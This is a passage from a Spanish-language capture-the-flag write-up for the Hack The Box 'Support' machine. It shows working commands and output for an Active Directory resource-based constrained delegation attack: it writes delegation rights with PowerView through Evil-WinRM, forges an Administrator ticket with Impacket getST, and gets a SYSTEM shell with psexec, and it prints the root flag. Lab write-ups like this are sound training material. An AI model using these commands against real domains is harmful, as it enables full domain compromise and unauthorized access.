 ```bash
usnchanged             : 90265
dnshostname            : Nuevo.support.htb
```

- Vamos a seguir con los pasos que nos dan.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer Nuevo -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

- Ahora usaremos impacket para obtener un ticket suplantando al Administrator.

```bash
➜  content impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.245.29 support.htb/Nuevo$:123456
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

- Ahora vamos a exportar la variable de entorno con el nombre del ticket.

```bash
➜  content export KRB5CCNAME=Administrator.ccache
```

- Ahora ya nos podemos conectar y leer la `flag`.

```bash
➜  content impacket-psexec -k dc.support.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file GoDYfrro.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service tmuw on dc.support.htb.....
[*] Starting service tmuw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
7088702023ddab61e77faaf6ac6fcbc2
```



